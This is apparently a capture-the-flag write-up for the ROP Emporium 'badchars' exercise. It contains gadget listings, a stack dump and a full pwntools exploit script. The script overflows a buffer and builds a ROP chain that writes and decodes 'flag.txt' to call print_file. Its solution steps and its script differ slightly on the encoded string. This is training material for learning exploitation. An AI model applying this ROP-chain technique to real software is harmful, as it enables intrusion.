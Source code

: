 # badchars (ROP Emporium 5)

## Information

almost same as 'write4'

compare badchars: 'x', 'g', 'a', '.' as '0x78', '0x67', '0x61', '0x2e' -> 0xeb

### just idea
1. set r12: "flag.txt" (with ROP gadget)
2. set r13: 0x601028
3. call usefulGadget: 0x400628
4. set rdi: 0x601028
5. call `print_file`: 0x400510

'flag.txt': a, g, . are badchars

### usefulGadgets
```asm
400628:	45 30 37             	xor    BYTE PTR [r15],r14b
40062b:	c3                   	ret
40062c:	45 00 37             	add    BYTE PTR [r15],r14b
40062f:	c3                   	ret
400630:	45 28 37             	sub    BYTE PTR [r15],r14b
400633:	c3                   	ret
400634:	4d 89 65 00          	mov    QWORD PTR [r13+0x0],r12
400638:	c3                   	ret
400639:	0f 1f 80 00 00 00 00 	nop    DWORD PTR [rax+0x0]
```

[r15] = [r15] ^ r14b

f  l  a  g  .  t  x  t
66 6c 61 67 2e 74 78 74
66 6c 62 68 62 74 79 74
      -1 -1-34    -1

### Gadget
```asm
0x000000000040069c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040069e : pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004006a0 : pop r14 ; pop r15 ; ret
0x00000000004006a2 : pop r15 ; ret

0x00000000004006a3 : pop rdi ; ret
```

### Stack
```bash
00:0000│ rsp 0x7fffffffdc10 ◂— 0
... ↓        3 skipped
04:0020│ rsi 0x7fffffffdc30 ◂— 0xa6a696f647361 /* 'asdoij\n' */
05:0028│-018 0x7fffffffdc38 ◂— 0
... ↓        2 skipped
08:0040│ rbp 0x7fffffffdc50 —▸ 0x7fffffffdc60 ◂— 1
09:0048│+008 0x7fffffffdc58 —▸ 0x400610 (main+9) ◂— mov eax, 0
```

## Solution
1. set r12: "b"*8
2. set r13: 0x601030
3. call usefulGadget: 0x400634  (fin -> 0x601030: flbbbbbb)
4. set r15: 0x601032 (a)
5. set r14: 0x1
6. call usefulGadget: 0x400630
7. set r15: 0x601033 (g)
8. call usefulGadget: 0x400630
9. set r15: 0x601036 (x)                 
10. call usefulGadget: 0x400630
11. set r15: 0x601034 (.)
12. set r14: 0x34
13. call usefulGadget: 0x400630
14. set rdi: 0x601030
15. call `print_file`: 0x400510

## Script
```python
from pwn import *

#conn = gdb.debug('./badchars')
conn = process('./badchars')

payload = b'A'*0x28
payload += p64(0x40069c)
payload += b'flbhbtyt'    # r12
payload += p64(0x601030)  # r13
payload += p64(0x601038)  # r14, dummy
payload += p64(0x601038)  # r15, dummy but available address
payload += p64(0x400634)  # usefulGadgets

payload += p64(0x4006a0)
payload += p64(0x1) # r14
payload += p64(0x601032) # r15
payload += p64(0x400630) # usefulGadgets

payload += p64(0x4006a2)
payload += p64(0x601033)
payload += p64(0x400630)

payload += p64(0x4006a2)
payload += p64(0x601036)
payload += p64(0x400630)

payload += p64(0x4006a0)
payload += p64(0x34)
payload += p64(0x601034)
payload += p64(0x400630)

payload += p64(0x4006a3)
payload += p64(0x601030)
payload += p64(0x400510)

conn.sendlineafter('> ', payload)
conn.interactive()
```